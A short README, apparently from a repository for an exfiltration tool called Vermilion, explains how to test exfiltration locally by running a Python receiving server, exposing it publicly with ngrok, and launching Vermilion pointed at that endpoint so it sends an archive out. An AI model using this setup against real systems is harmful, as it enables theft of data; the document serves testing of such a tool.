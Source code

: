 # Test Exfiltration Locally

This directory contains a simple http server writte in python to test exfiltration locally.  

I suggest using also [*ngrok*](https://ngrok.com/), [*Cloudflare Tunnels*](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/) or similar, to expose the exfiltration endpoint publicly for the tests.  

## Instructions  

Launch the python endpoint:  
```console
python3 endpoint.py
```  
Expose the endpoint server publicly via `ngrok`:  
```console
ngrok http 8089
```  

Launch Vermilion:  
```console
go run main.go -e https://<your-ngrok-endpoint-here>
```  

If everything went well you should see the exported archive in the current directory!  




